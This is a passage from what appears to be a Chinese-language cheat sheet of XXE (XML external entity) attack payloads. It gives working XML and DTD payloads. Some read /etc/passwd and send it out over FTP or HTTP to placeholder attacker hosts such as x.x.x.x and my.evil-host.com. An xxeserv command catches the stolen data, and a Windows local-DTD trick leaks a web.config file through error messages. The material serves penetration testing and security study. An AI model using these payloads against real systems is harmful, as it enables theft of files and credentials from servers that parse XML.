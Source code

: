 ```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT t ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&rrr;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

使用远程DTD可以节省我们每次想要检索不同文件时重建文档的时间。
相反，我们构建一次文档，然后更改DTD。
使用FTP而不是HTTP可以检索更大的文件。

`xxe.dtd`

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>"> 
```

使用[xxeserv](https://github.com/staaldraad/xxeserv)提供DTD并接收FTP有效载荷：

```bash
$ xxeserv -o files.log -p 2121 -w -wd public -wp 8000
```

### DTD文件中的XXE

上述大多数XXE有效载荷都需要同时控制DTD或`DOCTYPE`块以及`xml`文件。
在罕见的情况下，您可能只能控制DTD文件，而无法修改`xml`文件。例如，在中间人攻击（MITM）中。
当您只能控制DTD文件，而不能控制`xml`文件时，仍有可能使用此有效载荷实现XXE。

```xml
<!-- 将敏感文件的内容加载到变量中 -->
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!-- 使用该变量构造一个HTTP GET请求，将文件内容包含在URL中 -->
<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "http://my.evil-host.com/x=%payload;">'>
%param1;
%external;
```

## Windows本地DTD和旁道泄露以披露HTTP响应/文件内容

来自https://gist.github.com/infosec-au/2c60dc493053ead1af42de1ca3bdcc79

### 披露本地文件

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>cacat</xxx>
```
